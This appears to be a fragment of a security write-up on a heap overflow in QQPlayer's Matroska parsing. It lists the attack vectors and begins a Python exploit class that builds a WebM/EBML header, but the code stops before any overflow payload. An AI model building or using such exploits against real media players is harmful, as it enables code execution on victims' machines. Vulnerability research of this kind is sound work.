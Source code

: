 The vulnerability provides several attack vectors:

![Memory corruption debugging session](images/QQ_2.png)
*Debugging session showing controlled call instruction exploitation*

- **Heap Allocation Control**: Attacker controls allocation sizes
- **Memory Copy Operations**: Unrestricted copying to heap buffers
- **Track Count Manipulation**: Excessive track counts cause overflow
- **Pointer Corruption**: Heap metadata corruption enables arbitrary writes

## Exploitation Strategy

### Heap Spray Implementation

The exploitation strategy leverages **Matroska multi-track abuse** to achieve controlled heap layout:

```python
#!/usr/bin/env python
# QQPlayer Matroska Heap Overflow Exploit

import struct

class MatroskaExploit:
    def __init__(self):
        self.ebml_header = self.create_ebml_header()
        self.segment_header = self.create_segment_header()
        
    def create_ebml_header(self):
        """Generate valid EBML header for WebM file"""
        ebml = b"\x1A\x45\xDF\xA3"  # EBML magic
        ebml += b"\x9F"             # Header size
        ebml += b"\x42\x86\x81\x01"  # EBML version
        ebml += b"\x42\xF7\x81\x01"  # EBML read version
        ebml += b"\x42\xF2\x81\x04"  # EBML max ID length
        ebml += b"\x42\xF3\x81\x08"  # EBML max size length
        ebml += b"\x42\x82\x88webm"  # Doc type: "webm"
        ebml += b"\x42\x87\x81\x02"  # Doc type version
        ebml += b"\x42\x85\x81\x02"  # Doc type read version
        return ebml
    
    def create_segment_header(self):
        """Generate Segment element header"""
```
